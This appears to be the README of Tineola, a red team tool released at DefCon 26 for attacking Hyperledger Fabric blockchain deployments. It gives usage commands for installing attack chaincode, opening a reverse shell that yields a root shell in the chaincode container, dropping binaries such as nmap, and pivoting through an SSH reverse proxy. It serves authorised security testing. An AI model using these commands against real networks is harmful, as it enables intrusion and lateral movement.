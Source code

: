 # Introducing Tineola

**Read the [Whitepaper](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf)**

Tineola is a red team tool for interfacing with **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Koen Buyens, and Travis Biehn.


# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a .tineola-rc file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive commandline application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```
After these commands, the admin user has been enrolled into tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and reciving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.
Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.
Both actions use the "channel-query-cc" tineola command with or without the "--invoke" flag.
Invocation requires an orderer to be set.
Note: invoking requires the endorsment policy to be met, where as querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.
Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the tineola chaincode

Start a tcp listener on the tineola machine (10.0.0.5 in this example)
```
nc -l 31337
```

Use tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container.
This container is a bare ubuntu image.
Use `apt update` and `apt install ...` to download packages if the peer is internet connected.
If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the tineola machine is at 10.0.0.5, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the tineola machine.
An allowed ssh private key should be present at ~/tineola-ssh-key for tineola to use.
Note: make sure to disallow this key after using Tineola.
Tineola makes no effort to encrypt or otherwise hide this key durring or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated ising `ssh-keygen` and installed to ~/.ssh/authorized keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form IP:PORT and is 10.10.0.100:1234 in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to a application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability orginating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (defaukt: localhost:8888).
The format of HTTP requests should be:
```
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The HLF-Invoke header controls whether or not to send the request for ordering.
Then HLF-Invoke is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

# License
This software is released by Synopsys under the MIT license. 
